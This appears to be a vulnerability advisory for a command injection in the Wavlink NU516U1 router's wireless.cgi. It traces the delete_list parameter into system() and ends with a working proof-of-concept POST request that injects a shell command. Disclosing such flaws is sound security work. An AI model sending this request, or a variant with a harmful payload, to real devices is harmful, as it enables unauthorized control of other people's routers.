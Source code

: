 # Wavlink NU516 Delete_Mac_list
### Overview
vendor: Wavlink

product: NU516U1

version: M16U1_V240425

type: Command Injection
### Vulnerability Description
Wavlink NU516U1 M16U1_V240425 were discovered to contain a command injection via the delete_list parameter in the sub_4030C0 function of the file wireless.cgi.
### Vulnerability details
In the ftext function, obtain the value of the page parameter via user input.

![](images/1.png)

Setting the value of the page parameter to Delete_Mac_list will call the sub_4030C0 function.

![](images/9.png)

In the sub_4030C0 function, the value of the delete_list parameter is obtained via a post request. Then, the value of the delete_list parameter is passed to the v7 variable via the sprintf function, which in turn is passed to the sub_405314 function. In the sub_405314 function, the value of the v7 variable is passed into the byte_41BCB4 variable, and finally into the system function.

![](images/8.png)

![](images/5.png)

### POC
```
POST /cgi-bin/wireless.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 45
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/html/networkSetting.shtml
Accept-Encoding: gzip, deflate, br
Cookie: session=1555773206
Connection: keep-alive

page=Delete_Mac_list&delete_list=$(ls>/3.txt)
```
